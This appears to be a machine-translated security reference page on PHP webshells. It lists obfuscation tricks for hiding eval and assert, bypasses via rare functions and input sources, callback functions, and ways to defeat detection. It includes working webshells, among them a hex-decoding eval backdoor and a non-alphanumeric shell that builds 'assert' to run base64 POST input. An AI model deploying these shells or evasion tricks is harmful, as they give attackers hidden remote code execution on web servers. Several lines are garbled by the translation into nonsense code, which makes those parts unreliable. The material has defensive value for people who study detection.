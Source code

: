 WebShell
================================

Common deformations
--------------------------------
- GLOBALS
- ``eval($GLOBALS['_POST']['op']);``
- ``$_FILE``
- ``eval($_FILE['name']);``
- Split
- `` `Eval ($ {" _ after "." Wed "} ['sz']);` `
- Dynamic function execution
- ``$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);``
- ``$a=$_GET['a'];$a($_GET['b']);``
- create_function
- ``$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();``
- preg_replace
- Deformation
- str_replace ("", "e v a l")
- Category conversion
- ``"\x62\x61s\x65\x36\x34_de\x63\x6fde"``
- Category operation
- ``("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");``
- Self-increasing operation
- ``$a="a";$a++;``
- Forced type conversion
- ``$a='';$a.=[]; // Array``
-Use file names
- ``__FILE__``
- Comments
- ``$a="e"."v"./*-/*-*/"a"./*-*/"l";``
- Reflection
- ``ReflectionFunction``

Bypass
--------------------------------
- Based on rare functions
- ``breeding_replacement_replacement.
- set_error_handler + trigger_error
- Based on pollution transmission
- ``putenv($_GET["c"]);eval(getenv('path'));``
- parse_str
- Parese_url
- extract
- token_get_all
- define
- Based on rare sources
- ``$a = filter_input(INPUT_GET,'c');``
- `` evales (end (number heads ())); `` `` ``
- get_defined_vars
- Tall Headers
- get_meta_tags
- phpinfo
- External variables/file information
- Overload toString

String deformation function
--------------------------------
- base64_decode
- base64_encode
- Str_replace
- str_rot13
ash
- strtolower
- Strtoupper
- Strtr
- substr
- substr_replace
- trim
- ucfirst
- ucwords

Callback function
--------------------------------
- array_filter
- array_map
- array_reduce
- array_walk
- array_walk
- array_walk_recursive
- call_user_func
- call_user_func_array
- filter_var
- filter_ar array
- preg_replace_callback
- register_tick_function
- registregister_shutdown_function
- max
- Uksort

Encrypt and decrypt functions
--------------------------------
- mcrypt_encrypt
- openssl_encrypt

Other ways of execution
--------------------------------
- FFI
- SimpleXML
- SimpleXMLElement

Custom functions
--------------------------------
Using custom encryption and decryption functions, some protection software can be bypassed to a certain extent. The following code is a simple example of hexadecimal execution.

.. code:: php

$string = '';
$password = 'password';
if(isset($_POST[$password])){
$hex = $_POST[$password];
for($i = 0; $i < strlen($hex) - 1; $i += 2) {
$string .= chr(hexdec($hex[$i] . $hex[$i + 1]));
}
}
eval($string);

Special character shell
--------------------------------
PHP strings can directly perform operations when performing XOR and autoincrement operations, so special characters can be used to form a shell.

.. code:: php

<? = `` {{$ {{{"{{" ~ "\ Send0 \ xb8 \ xba \ xb}`;

.. code:: php

@$_++;
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
@${$__}[!$_](${$__}[$_]);


.. code:: php

$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___(base64_decode($_[_]));

Detect confrontation
--------------------------------
- Analysis based on obfuscation impact program
- Influence program execution based on dynamic variables
- Throw an exception to interrupt data flow analysis
- Reflection-based interruption data flow analysis
- Interrupt data flow analysis based on reference delivery
